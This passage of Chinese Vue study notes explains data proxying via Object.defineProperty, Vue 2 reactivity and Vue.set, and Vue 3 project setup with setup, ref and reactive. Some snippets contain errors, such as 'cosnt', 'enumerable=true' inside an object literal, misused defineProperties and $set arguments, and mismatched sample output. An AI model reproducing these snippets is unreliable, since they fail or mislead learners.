  plugins: [
    [
      'component',
      {
        libraryName: 'element-ui',
        styleLibraryName: 'theme-chalk',
      },
    ],
  ],
}

~~~


接下来，如果你只希望引入部分组件，比如 Button 和 Select，那么需要在 main.js 中写入以下内容：

~~~js
import Vue from 'vue';
import { Button, Select } from 'element-ui';
import App from './App.vue';

Vue.component(Button.name, Button);
Vue.component(Select.name, Select);
/* 或写为
 * Vue.use(Button)
 * Vue.use(Select)
 */

new Vue({
  el: '#app',
  render: h => h(App)
});
~~~


# Vue 底层逻辑

## 1. 数据代理

创建一个 vue 实例的语法是：

~~~js
cosnt vm = new Vue({
    data:{
        username: 'zhangsan',
        age: '18'
    }
})
~~~


但是当我们用 cosnole.log 打印 vm 这 Vue 实例后，可以看到 data 里边的属性，成为了 vm 的属性，这是怎么实现的呢？


### 1.1 Object.defineProperty

首先我们先要了解 ES6 中的 Object.defineProperty 这个方法，我们利用 Object.defineProperty 可以给对象添加属性，首先定义一个对象，如：

~~~js
let person ={
    name:'张三',
    sex:'男',
}
~~~


如果想给这个对象添加一个属性 age 的话，那么可以直接在定义的时候就添加进去

~~~js
let person ={
    name:'张三',
    sex:'男',
    age:'18'
}
~~~


或者使用 `.` 方法添加属性

~~~
person.age = 18
~~~


除此之外，我们可以使用对象原型中的 defineProperty 方法来添加属性，使用方法：

~~~js
Object.defineProperty(目标对象,属性值,配置项)
~~~

> 配置项是一个对象
>
> 注意：不要和 Object.defineProperties 搞混


使用 defineProperty 默认添加的属性是不支持枚举的，通过 console.log 可以看出被添加的属性名是淡色的

~~~js
Object.defineProperty(person,'age',{
    value: 18	
})
~~~


控制台颜色不一致


> 而使用 person.age 添加的属性都是实体颜色的


这代表着，使用 defineProperty 不能枚举，即不可以使用这样的方法遍历该对象

~~~js
# 遍历方法1
for (let key in person) {
    console.log(key)
}

// 输出结果
zhangsan
18

# 遍历方法2
console.log(Object.keys(person))

// 输出结果
 ['username', 'sex']
~~~

> 可以看到，用 defineProperty 方法添加的属性无法被遍历


除此之外，使用 defeineProperty 添加的属性还不可以被修改，也不可以被删除，即不可以使用

~~~js
person.age = 19
delete person.age
~~~

> 以上语句虽然不报错，但是对对象中的数据不会产生影响


如果想让新属性支持遍历、支持修改、支持删除的话，我们需要在配置项赋予新属性的权限，如：

~~~js
Object.defineProperty(person,'age',{
    value:18,
    enumerable=true,    // 控制属性是否可以被枚举
    writable=true,      // 控制属性是否可以被修改
    configurable=true   // 控制属性是否可以被删除
})
~~~


如果有一个变量 number，我们需要根据 number 的值来确定 age 的数值

~~~js
let number = 19;
let person ={
    name:'张三',
    sex:'男',
    age:number
}
~~~


只有第一次渲染页面的时候，number 值会传入对象中，但是如果 number 在渲染页面结束后发生改变，age 不会与 number 进行同步，即

~~~js
let number = 19;
let person ={
    name:'张三',
    sex:'男',
    age:number
}

number = 20
console.log(person)
~~~

> person 对象中的 age 依然还是 19，没有因为 number 的改变而改变，这是因为定义 person 的语句已经执行完毕，修改 number 并不会对 person 中的属性重新定义，除非运行 person.age = number 语句，才会对对象中的属性重新赋值


通过 Object.defineProperty 方法，可以定义 get 和 set 配置项，来动态获取值的改动与更新

~~~js
let number = 19;
let person ={
    name:'张三',
    sex:'男',
    age:number
}

Object.defineProperty(person,'age',{
    // 有人读取 person 的 age 属性时，就会触发 getter （get 函数被调用），且返回值就是 age 的属性值
    get:function(){
        console.log('有人读取了 age, 值是', number);
        return number
    },

    // 有人修改 person 的 age 属性时，就会触发 setter （set 函数被调用），value 为收到的修改值
    set:function(value){
        console.log('有人修改了 age，值是', value);
        number = value  // 修改属性值
    }
})
~~~


在对象中使用函数，可以直接用函数表示

~~~js
get(){
    return number
},
set(value){
    number = value
}
~~~

> 我们称 get() 函数为 getter，set() 函数为 setter


此时用 `console.log(person)` 查看 person 对象，可以看到 person 中的 age 属性变为了 `...`， 如：


当我们点击 ... 的时候，就触发了 getter ，那么就会执行 get() 函数中的代码

~~~
console.log('有人读取了 age, 值是', number);
return number
~~~


当我们重新给 number 赋值后，再次查看 person 属性

~~~js
number = 20
console.log(person)
~~~

> 点击 ... 后显示的 age 属性，就是 getter 再次执行 return number 的值，即 20


现在通过修改 number 可以修改 person 中的 age 属性，但是如果通过对象来修改属性时，并不能修改 age 属性，如：

~~~
person.age = 30
console.log(person)
~~~

> 可以看到 person 中的 age 属性还是原来的值


这是因为虽然我们改掉了 person 对象中的属性值，但是当我们查看该属性时，number 值并没有改变，所以显示的还是原来 number 的值，通过设置 setter，我们可以让有人修改 person 的 age 属性时，就会触发 setter，并执行里边的相关函数

~~~js
// value 为被修改的值（新值）
set(value){
    number = value
}
~~~

> 这样就起到了 number 被修改的作用，用 getter 查看时，number 的数据也被更新了。


### 1.2 数据代理

数据代理定义：通过一个对象代理对另外一个对象中属性的操作（读/写）


例：通过 obj2 来改变 obj1 中的属性值 x

~~~js
let obj1 = { x:100 }
let obj2 = { y:200 }

Object.defineProperties(obj2,'x',{
    get(){
        return obj1.x
    },
    set(value){
        obj1.x = value
    }
})
~~~


- 给 obj2 赋值属性 x
- 当读取 obj2 对象中的 x 属性时，调用 obj1 中的 x 属性值
- 当修改 obj2 对象中的属性值，让 obj1 的 x 值变为新的值


### 1.3 Vue 中的数据代理

Vue 创建一个实例 vm

~~~js
const vm = new Vue({
    el:'#root',
    data:{
        name:'zhangsan',
        address:'BJ'
    }
})
~~~


在控制台中查看 vm 这个 Vue 实例


可以看到 username 和 address 都是 ... ，这代表了这 vm 实例下的两个属性是通过 getter 方法通过其他变量或对象属性中获取的值，而我们通过 this.username 或 this.address 修改这两个属性是通过 setter 改变其他变量或其他对象属性。从 vm 对象中也确实可以看到 setter 和 getter，如：


之前讲过，在 Vue 中，我们将定义数据的时候，是把数据放在 data 这个对象中的，如：

~~~js
cosnt vm = new Vue({
    data:{
        username: 'zhangsan',
        age: '18'
    }
})
~~~


我们读取 vm 属性 username, address 的时候，getter 就会 return 从 data 对象中获取对应数据，同理修改 vm 属性时，通过调用的 setter 方法，也修改了 data 中对应的数据。


验证 vm 实例中的 username、address 属性是不是来自 data

- 验证 getter
  - 通过修改源代码，改变 data.username 的值，刷新页面，则 vm.username 值也跟着改变
- 验证 setter
  - 修改 vm.username，无法直接通过 vm.data.username 来查看，但是可以通过 Vue-devtool 来查看 data 值的变化


vm 实例上没有 username 属性，也没有 address 属性，即不能通过 vm.username, vm.address 调用 data 中的属性

但是 vm 中有 _data 属性，所以在容器中也可以使用 _data.name, _data.address 来调用 data 中的值，如：

~~~html
<div id="root">
    {{_data.name}}, {{_data.address}}
</div>
~~~

> vm 下的所有属性和方法都可以在模板上直接使用


data 原始数据被放在 vm 实例中，属性名为 _data，暂时可以看做 Vue 做了一个赋值操作，将 `data = vm._data` （因为是对象，所以赋值的是引用，这两个实际上是一个对象）


可以通过以下方法来验证 vm._data 就等于我们代码中的 data

~~~js
let data = {
    username: 'zhangsan',
    address: 'BJ',
}
const vm = new Vue({
    el: '#app',
    data,
})
~~~


现在由于 data 属性是通过外部定义的 data 传进来的，所以我们可以通过 console.log(data == vm._data)  来查看是否相等

~~~
console.log(data == vm._data)
~~~

> 返回结果为 true，所以可以认定我们在 Vue 中定义的 data 就是 vm 实例中的 _data


现在我们改变 vm.username 属性，如果 _data 中的值发生改变，那么就证明 data 中的数据也发生了改变，同样证明了 setter 修改的是 data 中的数据，控制台输入：

~~~js
vm.username = 'lisi'
console.log(vm._data.username)
~~~

> 可以看到 _data.username 发生了改变，这就证明了 setter 做了一个 data.username = value 的动作，把传过来的值 'lisi' 赋值给了 data 中的 username


总结： 


vm 属性的 getter 方法和 setter 方法，实际上伪代码应该是类似这个样子

~~~js
vm._data = data
Object.defineProperty(vm,'username',{
    get(){
        return _data.username
    },
    set(value){
        _data.username = value
    }
})
~~~


通过 vm 对象来代理 data 对象中属性的操作，基本原理：

- 通过 Object.defineProperty() 把 data 对象中所有属性添加到 vm 上
- 为每一个添加到 vm 上的属性，都指定一个 getter 和 setter
- 在 getter / setter 内部去操作 data 中对应的属性


PS:

_data 中的数据之所以不是 data 原来的模样，是因为 Vue 需要做页面响应，当 data 数据发生变化，页面就要重新渲染，所以对 _data 做了数据劫持。（这个之后再讲）


疑问：

vm.$data  和 vm._data 是什么关系？


## 2. Vue 监测属性变化的原理

当我们改变 data 中的数据时，Vue 会重新渲染页面，那么 Vue 是如何发现 data 数据改变，以及拿到改变后的数据的呢？


在了解 Vue 是如何监测属性变化之前，先看一个例子

当点击更新数据时，会调用 updateMa 方法更新 data 数组中的第一个元素

~~~html
<div id="root">
    <h2>Vue 对数据的监测</h2>
    <button @click="updateMa">更新数据</button>
    <ul>
        <li v-for="(p, index) in persons" :key="p.id">
            {{p.name}} - {{p.age}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el: "#root",
        data: {
            persons: [
                { id: "001", name: "马冬梅", age: 26, sex: "女" },
                { id: "002", name: "周冬雨", age: 20, sex: "女" },
                { id: "003", name: "周杰伦", age: 40, sex: "男" },
                { id: "004", name: "温兆伦", age: 46, sex: "男" },
            ],
        },
        methods: {
            updateMa() {
                this.persons[0].name = "马老师";
                this.persons[0].age = 56;
                this.persons[0].sex = "男";
            },
        },
    });
</script>
~~~


但是如果我们更改对象时，会发现在 console 中调用数据发现数据已经改变，但是 Vue Dev Tools 却没有检测到

~~~html
methods: {
            updateMa() {
                this.persons[0] = { id: "001", name: "马老师", age: 56, sex: "男" }
            },
        },
~~~

> 如果先开 Vue Dev Tool，再点按钮，Vue 监测不到数据变化，但是 Conosle 中可以使用 this.person[0].name 查看数据已经发生改变
>
> 如果点击按钮再打开 Vue Dev Tools 可以发现数据已经改变，console 中也改变了，但是页面没有变化


### 2.1 监测对象数据改变原理

当我们给 Vue 配置项中 data 属性添加元素时，其中 data 中的数据会被数据代理到 Vue 实例下，用的是 setter 和 getter 方法。其中执行的一个步骤，是 Vue 将 data 原始数据实际上是以 _data 挂载到 vm 实例上。其实这个步骤已经是第二步了。因为我们在查看 _data 时，看到的不仅仅是 data 中的数据，还可以看到一些其他的方法。


如果没有经过 Vue 加工，_data 的数据应该是与原始数据相同的，如下：

~~~json
data:{
    name: "尚硅谷",
    address:"北京"
}
~~~


可我们看到的 _data 其实是下边的这个样子，被传入的 data 经过 Vue 加工成为下边的形式，然后才会被挂载到 vm 上，伪代码 `vm._data = data`


> 可以看到，在 _data 中，name 和 address 也用到了 getter 和 setter，并且是响应式的（reactiveSetter)


这里边的 setter 的作用就是当 _data 数据发生改变时，那么 setter 就会重新解析模板，这就实现了对象属性的监视。


不用 setter 能不能实现监视对象属性呢？可以

~~~js
let data = {
    name: '尚硅谷',
    address: '北京',
}
let tmp1 = '尚硅谷'
let tmp2 = '北京'

setInterval(() => {
    if (data.name != tmp1) {
        tmp1 = data.name
        console.log('data.name 被改变了')
    }
}, 1000)

setInterval(() => {
    if (data.address != tmp2) {
        tmp2 = data.address
        console.log('data.address 被改变了')
    }
}, 1000)
~~~

> 不过这样做的缺点也很明显，有多少属性都得设置多少个 tmp 变量，并且添加多少个定时器


Vue 通过 getter，setter 实现监视，那么直接写成不成呢？

~~~js
let data = {
    name: '尚硅谷',
    address: '北京',
}

Object.defineProperty(data,'name',{
    get(){
        return data.name
    },
    set(val){
        data.name = val
    }
})
~~~

> 显然不成，当访问 data 的 name 属性时，会调用 getter，然后 getter 又会调用 data.name，形成递归死循环。setter 也是一样。


实际上 Vue 使用了一个类似于构造函数的东西，用来创建一个实例对象用来监视 data 中的属性变化，如：

~~~js
let data = {
    name: '尚硅谷',
    address: '北京',
}

// 创建一个监视的实例对象，用于监视 data 中属性的变化
const obs = new Observer(data)

// 挂载到 vm 身上
let vm = {}
vm._data = data = obs

// 构造函数，复制传入的对象
function Observer(obj) {
    // 拿到对象中的 keys，返回一个数组
    const keys = Object.keys(obj)
    // 遍历 keys
    keys.forEach((k) => {
        // 给 Observer 实例添加属性（复制传入的对象）
        Object.defineProperty(this, k, {
            get() {
                return obj[k]
            },
            set(val) {
                console.log(`${k}被改了，完成解析模板动作，生成虚拟DOM...`)
                obj[k] = val
            },
        })
    })
}
~~~

> 此时我们的 obs 实际上拥有了 data 的所有属性与值，当我们查看 obs 上的属性时，就会调用 getter 然后拿到 data 中对应的属性


基本上是这么个原理，但是 Vue 做的要更完善，比如如果我们的 data 中出现多层数据，如：

~~~js
let data = {
    name: '尚硅谷',
    address: '北京',
    a:{
        b:'1'
    }
}
~~~

> 这时候我们的代码就不起作用了，因为 forEach 我们只循环了一层，而 Vue 会对每一层的对象，甚至数组中的数据都会添加 getter 和 setter


再来看一个例子，data 数据中不仅有对象数据，也有数组数据

~~~html
<div id="app">
    学校：{{name}} <br />
    地址：{{address}}<br />
    <hr />
    姓名：{{student.name}} <br />
    年龄：真实{{student.age.rAge}}, 对外{{student.age.vAge}} <br />
    朋友：
    <ul>
        <li v-for="(k,index) in student.friends" :key="index">{{k.name}} - {{k.age}}</li>
    </ul>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            name: '尚硅谷',
            address: '北京',
            student: {
                name: 'Tom',
                age: {
                    rAge: 40,
                    vAge: 18,
                },
                friends: [
                    { name: 'Jerry', age: 20 },
                    { name: 'Tony', age: 30 },
                ],
            },
        },
    })
</script>
~~~


目前的需求是需要添加一个临时变量，由用户来决定显示或不显示，但是不能让用户修改我们的代码

~~~html
性别：{{student.sex}}<br />
~~~

> 当 data 中没有找到 student.sex 时，控制台不会报错，因为 sex 是 student 中的一个属性。而 Vue 是可以找到 student 的。显示对象中的不存在的属性值，会返回 undefined，而 Vue 不会将 undefined 显示在页面上。
>
> 但是如果这个 sex 属性挂载在 data 上，则会报错，因为插值语法不会找到 sex 属性


~~~js
    const vm = new Vue({
        el: '#app',
        data: {
            name: '尚硅谷',
            address: '北京',
            student: {
                name: 'Tom',
                // sex: 'male',
                age: {
                    rAge: 40,
                    vAge: 18,
                },
                friends: [
                    { name: 'Jerry', age: 20 },
                    { name: 'Tony', age: 30 },
                ],
            },
        },
    })
~~~


由于是用户控制，我们在控制台输入

~~~js
vm._data.student.sex = "男"
~~~

> 模拟完成用户帮我们给 student.sex 设置属性


但是，我们的页面却不会刷新重新渲染并显示 {{student.sex}}，这是因为用户插入的值并没有 setter 和 getter，如：


> new Vue 生成实例的时候，会自动将 data 对象进行加工，并且给每一个属性设置 setter 和 getter，用来监视属性值的变化，但是我们自己往 _data 中添加属性，并没有给这个属性添加对应的 setter 和 getter，因此 Vue 无法检测到该属性的变化，也就无法显示在页面上了。


向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的，且触发视图更新。它必须用于向响应式对象上添加新 property，因为 Vue 无法探测普通的新增 property 。如：`this.myObject.newProperty = 'hi'`，如果想给后添加的属性也可以被 Vue 监测到（添加 setter 和 getter），则需要使用到 Vue 提供的 API,  Vue.set() 或 vm.$set()

~~~js
Vue.set(target, key, val)
~~~


例：

~~~js
Vue.set(vm._data.student, 'sex', '男')
~~~

> 此时 Vue 可以监测到新属性的变化，当创建新属性时，Vue 会给该属性配置 setter 和 getter，并且显示在页面上。


因为 _data 上边的属性会被数据代理到 vm 实例上，实际上我们还可以写成

~~~js
Vue.set(vm.student, 'sex', '男')
~~~


当然使用 vm.$set() 也是可以的

~~~js
vm.$set('vm.student', 'sex', '男')
~~~


下面完善我们的代码，添加点击按钮

~~~js
<button @click="addSex">点击按钮添加性别</button><br />
~~~


添加方法

~~~js
methods: {
    addSex() {
        Vue.set(this.student, 'sex', '男')
    },
},
~~~

> 现在我们点击按钮，就可以让新添加的属性在页面中展示了。


如果想让 sex 在没有定义的时候，不显示在页面，我们也可以使用 v-if 来控制渲染

~~~html
<h2 v-if="student.sex">性别：{{student.sex}}</h2>
~~~


另外 set() 方法也有缺陷， 使用 set() 只能给 data 里的二级数据添加属性，如 _data.student.sex ，而不能给一级属性添加，如 _data.leader

~~~js
校长：{{leader}}
~~~


控制台使用 Vue.set() 方法添加 leader 属性

~~~js
Vue.set(vm._data,'leader','小张')
~~~

> 可以发现，系统报错 
>
> [Vue warn]: Avoid adding reactive properties to a Vue instance or its root $data at runtime - declare it upfront in the data option.


直接往 vm 身上添加属性也会报错

~~~js
Vue.set(vm,'leader','小张')
~~~


Vue.set() API 只可以在 data 数据中的对象添加属性，如：

~~~json
data: {
    school:{
        name: '尚硅谷',
        address: '北京',
    }
}
~~~


此时，我们可以使用以下方法添加属性

~~~js
Vue.set(vm._data.school,'leader','小张')
~~~


另外之前的插值语法也需要改成对应数据

~~~html
学校：{{school.name}} <br />
地址：{{school.address}}<br />
校长：{{school.leader}}
~~~


Vue 通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据

- 对象中后追加的属性，Vue 默认不做响应式处理
- 如需给后添加的属性做响应式，需要使用 Vue.set() 或 vm.$set()


### 2.2 检测数组数据改变原理

在 data 中添加 hobby 属性，该属性里是一个数组

~~~json
data: {
    school: {
        name: '尚硅谷',
        address: '北京',
    },
    student: {
        name: 'Tom',
        age: {
            rAge: 40,
            vAge: 18,
        },
        // 添加 hobby 属性
        hobby:['抽烟','喝酒','烫头'],
        friends: [
            { name: 'Jerry', age: 20 },
            { name: 'Tony', age: 30 },
        ],
    },
},
~~~


查看 vm ，看到 _data 中 hobby 的属性值并没有对应的 getter 和 setter


这代表着，当我们更改 data 中数组中的数据，因为其并没有对应的 setter 和 getter，所以 Vue 并不能监测到数据的变化，也就无法立刻渲染到页面，如在控制台输入：

~~~js
vm._data.student.hobby[0] = '学习'
~~~

> 因为没有 setter，页面没有变化


在 Vue 修改数组中的某个元素一定要用如下方法：

- 使用这些 API: push(), pop(), shift(), unshift(), splice(), sort(), reverse()
- 使用 Vue.set() 


如：

~~~js
vm._data.student.hobby.push('学习')
vm._data.student.hobby.shift()
vm._data.student.hobby.splice(0,1,'学习')
~~~


Vue 通过包裹数组更新元素的方法实现，本质上就是做了两件事：

- 调用原生对应的方法对数组进行更新
- 重新解析模板，进而更新页面


所以再来看开始的问题：

~~~js
methods: {
    updateMa() {
        this.persons[0] = { id: "001", name: "马老师", age: 56, sex: "男" }
    },
},
~~~

> 这是因为我们改动的是 data 中数组里的数据，但是并没有 setter 和 getter，因此，Vue 无法检测到数据的变化。


所以正确方法，应该是调用 API，如：

~~~js
this.persons.splice(0,1,{ id: "001", name: "马老师", age: 56, sex: "男" })
~~~


注意 Vue 提供的 API，虽然类似数组原生方法，但是本质上是不同的，Vue 将原生方法重写

~~~js
vm._data.student.hobby.push === Array.prototype.push
~~~

> false


- 使用类似 Super() 方法调用数组原型中的 push
- 多态，添加自己的功能（重新解析模板，生成虚拟 DOM）


使用 Vue.set() 也可以改变数组数据

~~~js
Vue.set(vm._data.student.hobby,1,'打台球')
~~~

> set 参数中提供一个索引值，可以根据索引值来修改数组中的数据。


### 2.3 综合练习

通过添加方法的形式给对象和数组添加属性

~~~html
<div id="app">
    <button @click="student.age++">年龄+1岁</button>
    <button @click="addSex">添加性别属性：默认值(男)</button>
    <button @click="addFriend">在列表首位添加一个朋友</button>
    <button @click="renameFirstFriend">修改第一个朋友的名字为：张三</button>
    <button @click="addHobby">添加一个爱好</button>
    <button @click="changeHobby">修改第一个爱好为：开车</button>
    <hr />
    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
        <li v-for="(k,index) in student.hobby" :key="index">{{k}}</li>
    </ul>
    朋友们：
    <ul>
        <li v-for="(k,index) in student.friends" :key="index">{{k.name}} - {{k.age}}</li>
    </ul>
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            student: {
                name: 'Tom',
                age: 18,
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    { name: 'Jerry', age: 20 },
                    { name: 'Tony', age: 30 },
                ],
            },
        },
        methods: {
            addSex() {
                Vue.set(this.student, 'sex', '男')
            },
            addFriend() {
                this.student.friends.unshift({ name: 'Peter', age: 40 })
            },
            renameFirstFriend() {
                this.student.friends[0].name = '张三'
            },
            addHobby() {
                this.student.hobby.push('看书')
            },
            changeHobby() {
                Vue.set(this.student.hobby, 0, '开车')
            },
        },
    })
</script>
~~~


### 2.4 过滤数组

像 filter(), contcat(), slice() 这种不改变数组的方法想实现被 Vue 监视可以使用新数组替换旧数组

~~~js
<button @click="removeSmoke">移除抽烟爱好</button>
~~~


~~~js
removeSmoke() {
    this.student.hobby = this.student.hobby.filter((h) => {
        return h != '抽烟'
    })
},
~~~


## 3. 数据劫持

数据监视中将 data 对象改造成 _data 形式，当数据被改变时，就会通过 setter 执行一系列动作的行为就叫做数据劫持


# --------------

# Vue 3.0

# --------------


vue 3.x 与 vue 2.x 的版本对比

Vue2.x 中绝大多数的 API 与特性，在 vue3.x 中同样支持。同时，vue3.x 中还新增了 3.x 所特有的功能，并废弃了某些 2.x 中的旧功能：


新增功能：

- 组合式 API
- 多根节点组件
- 更好的 TypeScript 支持


废弃功能：

- 过滤器
- 不再支持 $on, $off 和 $once 实例方法等


从 Vue2 迁移到 Vue3 的官方文档：

https://v3.cn.vuejs.org/guide/migration/introduction.html


注意：Vue2.x 调试工具 vue-devtools 不能喝 Vue3.x 调试工具交叉使用。需要下载对应版本。


# 基于 Vite 快速创建 Vue3 项目

Vue 官方提供了两种快速创建工程化的 SPA 项目：

- 基于 vite 创建 SPA 项目
- 基于 vue-cli 创建 SPA 项目


对比：

| 对比                       | vite           | vue-cli         |
| -------------------------- | -------------- | --------------- |
| 支持 vue 版本              | 仅支持 vue 3.x | 支持 3.x 与 2.x |
| 是否基于 webpack           | 否             | 是              |
| 运行速度                   | 块             | 慢              |
| 功能完整度                 | 小而巧         | 大而全          |
| 是否建议在企业级开发中应用 | 目前不建议     | 建议            |


优势：

- 开发环境中，无需打包操作，可快速的冷启动
- 轻量的热重载（HRM)
- 真正的按需编译，不再等待整个应用编译完成


## 1. 创建项目

使用 npm 初始化 vite 项目

~~~
npm init vite-app demo
~~~

> 创建目录，并生成 package.json，如不加目录名则在当前目录下创建项目


进入项目目录，安装依赖包

~~~
cd demo
npm install
~~~


运行项目

~~~
npm run dev
~~~


## 2. 项目结构

~~~
C:\wamp64\www\vite>
│  .gitignore						// Git 忽略文件
│  index.html						// SPA 单页面应用程序中唯一的 HTML 页面
│  package-lock.json				// 项目包管理配置文件
│  package.json						// 项目包管理配置文件
├─node_modules						// 第三方依赖包
├─public							// 公共静态资源目录
│      favicon.ico
└─src								// 项目的源代码目录（主要项目代码目录）
    │  App.vue						// 项目的根组件
    │  index.css					
    │  main.js						// 项目的打包入口文件
    │
    ├─assets						// 用来存放项目中静态资源（css，font 等）
    │      logo.png
    │
    └─components					// 用来存放项目中的自定义组件
            HelloWorld.vue
~~~


## 3. 项目运行流程

在工程化项目中，vue 要做的事情很简单，通过 main.js 把 app.vue 渲染到 index.html 的指定区域中。


其中：

- app.vue 是用来编写待渲染的模板结构
- index.html 中需要预留一个 el 区域（用来将 app.vue 组件渲染在其中）


# 基于 Vue-cli 创建 Vue3 项目

## 1. 创建项目

使用 vue-cli 创建 vue3 项目，需要保证 vue-cli 版本在 4.5.0 以上，查看版本命令

~~~
vue --version
~~~


安装或升级 vue-cli

~~~
npm install -g @vue/cli
~~~


创建项目流程与 vue2 一样，即：

~~~shell
# 创建项目
vue create project_name

# 进入项目目录
cd project_name

# 运行项目
npm run serve
~~~


注意，创建 vue3 项目，需要使用 vue3 的 devTool 开发者工具


## 2. main.js

main.js 中与 Vue2 的区别

~~~js
// 引入的不再是 Vue 构造函数，而是 createApp 的工厂函数
import { createApp } from 'vue'
import App from './App.vue'

createApp(App).mount('#app')

~~~


createApp(App) 返回的对象，类似于一个轻量级的 vm，如：


挂载命令 mount / unmount

可以将组件渲染在 index.html 页面中的 `<div id="app"></div>` 标签中

~~~js
import { createApp } from 'vue'
import App from './App.vue'

const app = createApp(App)

// 将 App 组件挂载到 #app 位置
app.mount('#app')

// 1秒后卸载根组件
setTimeout(() => {
  app.unmount('#app')
}, 1000)

~~~


## 3. App.vue

~~~vue
<template>
<!-- Vue3 中的组件，可以没有根标签（即可以使用多个同级顶层结构） -->
  
  <HelloWorld msg="Welcome to Your Vue.js App"/>
</template>

<script>
import HelloWorld from './components/HelloWorld.vue'

export default {
  name: 'App',
  components: {
    HelloWorld
  }
}
</script>
~~~


# 常用组合式 API

## 1. setup

setup 是 Vue3.0 中一个新的配置项，值为一个函数，组件中所用到的数据、方法、生命周期函数等等，均要配置在 setup 中


setup 的返回值：

- 若返回一个对象，则对象中的属性、方法、在模板中均可以直接使用
- 若返回一个渲染函数，则可以自定义渲染内容


注意点：

尽量不要与 Vue2.x 配置混用

- Vue2.x 配置（data, methods, computed...）中可以访问到 setup 中的属性、方法
- 但在 setup 中不能访问到 Vue2.x 中的（data, methods, computed...）
- 如果有重名，setup 优先


setup 不能是一个 async 函数，因为返回值不再是 return 的对象，而是 promise，模板看不到 return 对象中的属性。


setup 函数简单示例

~~~js
export default {
  name: 'APP',
  setup() {
    let name = 'zs'
    let age = 18
    function sayHi() {
      alert(`我叫${name},我${age}岁了，你好`)
    }
    return {
      name,
      age,
      sayHi,
    }
  },
}
~~~


在模板中展示

~~~js
<template>
  <h1>App 根组件</h1>
  <h2>姓名：{{ name }}</h2>
  <h2>年龄：{{ age }}</h2>
  <button @click="sayHi">点击按钮</button>
</template>
~~~


返回渲染函数，类似于 render

首先需要引入 h（渲染函数）

~~~js
import { h } from 'vue'
~~~


setup 的返回值

~~~js
return () => {
    return h('h1', '尚硅谷')
}
~~~

> 渲染 h1 标签，内容为尚硅谷


精简

~~~js
return () => h('h1', '尚硅谷')
~~~


## 2. ref 函数创建响应式数据

ref 函数可以将传入的数据转换成响应式数据


在 setup 中创建 changeName 方法改变数据

~~~vue
<template>
  <h1>App 根组件</h1>
  <h2>姓名：{{ name }}</h2>
  <h2>年龄：{{ age }}</h2>
  <button @click="changeName">点击按钮</button>
</template>

<script>
export default {
  name: 'APP',
  setup() {
    let name = 'zs'
    let age = 18
    function changeName() {
      name = 'ls'
      console.log(name)
    }
    return {
      name,
      age,
      changeName,
    }
  },
}
</script>
~~~

console.log() 中输出的是改变后的数值，但是页面中并没有变化


使用 ref 给属性赋值，则可以将数据转换成响应式数据，创建一个包含响应式数据的引用对象

~~~JS
// 引入 ref
import { ref } from 'vue'
export default {
  name: 'APP',
  setup() {
      // 使用 ref 函数生成响应式数据
    let name = ref('zs')
    let age = ref(18)
    function changeName() {
        // 通过更改对象中的 value 属性，改变响应式数据
      name.value = 'ls'
      console.log(name)
    }
    return {
      name,
      age,
      changeName,
    }
  },
}
~~~


关于对象数据数值的改变

~~~vue
<template>
  <h1>App 根组件</h1>
  <h2>姓名：{{ name }}</h2>
  <h2>年龄：{{ age }}</h2>
  <h2>工作：{{ job.type }}</h2>
  <h2>薪资：{{ job.sallary }}</h2>
  <button @click="changeJob">点击按钮</button>
</template>

<script>
import { ref } from 'vue'
export default {
  name: 'APP',
  setup() {
    let name = ref('zs')
    let age = ref(18)
    // 定义对象数据
    let job = ref({
      type: '前端工程师',
      sallary: '18K',
    })
    // 更改对象中的数据
    function changeJob() {
      job.value.type = '后端工程师'
      job.value.sallary = '25K'
    }
    return {
      name,
      age,
      job,
      changeJob,
    }
  },
}
</script>

~~~


- 经过 ref 包装的普通数据是 refImpl 对象
  - 其本质是通过 ObjectdefineProperty() 中的 getter 和 setter 实现的
- 经过 ref 包装的对象数据是也是 refImpl 对象
  - 对于对象里边的 value 属性则是 Proxy 对象，在 Vue 内部求助了 reactive 函数


## 3. reactive 函数

定义一个对象类型的响应式数据


语法：

~~~
const 代理对象 = reactive(被代理对象)
~~~

> 接收一个对象（或数组），返回一个代理器对象（proxy对象）


reactive 定义的响应式数据是深层次的，内部基于 ES6 Proxy 实现，通过代理对象操作源对象内部数据都是响应式的。


~~~js
<template>
  <h1>App 根组件</h1>
  <h2>姓名：{{ name }}</h2>
  <h2>年龄：{{ age }}</h2>
  <h2>工作：{{ job.type }}</h2>
  <h2>薪资：{{ job.sallary }}</h2>
  <button @click="changeJob">点击按钮</button>
</template>

<script>
import { reactive, ref } from 'vue'
export default {
  name: 'APP',
  setup() {
    let name = ref('zs')
    let age = ref(18)
    // 通过 reactive 定义对象数据
    let job = reactive({
      type: '前端工程师',
      sallary: '18K',
    })
    // 更改对象中的数据
    function changeJob() {
        // 不用写 .value 
      job.type = '后端工程师'
      job.sallary = '25K'
      console.log(job)
    }
    return {
      name,
      age,
      job,
      changeJob,
    }
  },
}
</script>

~~~


大多数情况都使用 reactive，将所有数据封装在一个对象中，有点类似 vue2.x 中的 data

~~~js
let data = reactive({
    name: 'zs',
    age: '18',
    school: '尚硅谷',
    sex: '男',
    job: {
        type: '前端工程师',
        sallary: '18K',
    },
})
~~~


## 4. Vue3.x 响应式原理

### 4.1 Vue2.x 响应式原理

- 对象类型：通过 `Object.defineProperty()` 对属性的读取、修改进行拦截（数据劫持）
- 数组类型：通过重写更新数组的一系列方法来实现拦截。（对数组的变更方法进行了包裹）

~~~js
Object.defineProperty(data, 'count', {
    get(){},
    set(){}
})
~~~


存在问题：

- 新增属性、删除属性，界面不会更新
- 直接通过下标修改数据，界面不会自动更新


Vue 2.x 通过 $set , $delete 或数组中的方法来创建响应式数据

~~~vue
<template>
  <div>
    <h2>姓名：{{ person.name }}</h2>
    <h2>年龄：{{ person.age }}</h2>
    <h2 v-show="person.sex">性别：{{ person.sex }}</h2>
    <h2>爱好：{{ hobby }}</h2>
    <button @click="addSex">添加对象数据</button>
    <button @click="removeHobby">删除数组数据</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      person: {
        name: 'zs',
        age: '18',
      },
      hobby: ['学习', '吃饭', '睡觉'],
    }
  },
  methods: {
